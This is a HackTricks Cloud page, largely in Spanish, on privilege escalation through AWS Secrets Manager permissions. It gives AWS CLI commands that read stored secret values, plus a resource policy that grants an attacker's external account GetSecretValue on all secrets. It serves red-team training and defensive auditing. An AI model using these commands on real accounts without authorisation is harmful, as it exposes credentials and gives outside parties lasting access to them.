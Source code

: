 # AWS - Secrets Manager Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Secrets Manager

Para más información sobre el secrets manager, consulta:

{% content-ref url="../aws-services/aws-secrets-manager-enum.md" %}
[aws-secrets-manager-enum.md](../aws-services/aws-secrets-manager-enum.md)
{% endcontent-ref %}

### `secretsmanager:GetSecretValue`

Un atacante con este permiso puede obtener el **valor guardado dentro de un secreto** en AWS **Secretsmanager**.
```bash
aws secretsmanager get-secret-value --secret-id <secret_name> # Get value
```
**Impacto Potencial:** Acceso a datos altamente sensibles dentro del servicio AWS Secrets Manager.

### `secretsmanager:GetResourcePolicy`, `secretsmanager:PutResourcePolicy`, (`secretsmanager:ListSecrets`)

Con los permisos anteriores es posible **dar acceso a otros principales/cuentas (incluso externas)** para acceder al **secreto**. Tenga en cuenta que para **leer secretos cifrados** con una clave KMS, el usuario también necesita tener **acceso a la clave KMS** (más información en la [página de enumeración de KMS](../aws-services/aws-kms-enum.md)).
```bash
aws secretsmanager list-secrets
aws secretsmanager get-resource-policy --secret-id <secret_name>
aws secretsmanager put-resource-policy --secret-id <secret_name> --resource-policy file:///tmp/policy.json
```
policy.json:
```json
{
"Version" : "2012-10-17",
"Statement" : [ {
"Effect" : "Allow",
"Principal" : {
"AWS" : "arn:aws:iam::<attackers_account>:root"
},
"Action" : "secretsmanager:GetSecretValue",
"Resource" : "*"
} ]
}
```
{% hint style="success" %}
Aprende y practica Hacking en AWS:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Aprende y practica Hacking en GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Apoya a HackTricks</summary>

* Revisa los [**planes de suscripción**](https://github.com/sponsors/carlospolop)!
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **síguenos** en **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Comparte trucos de hacking enviando PRs a los** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositorios de github.

</details>
{% endhint %}
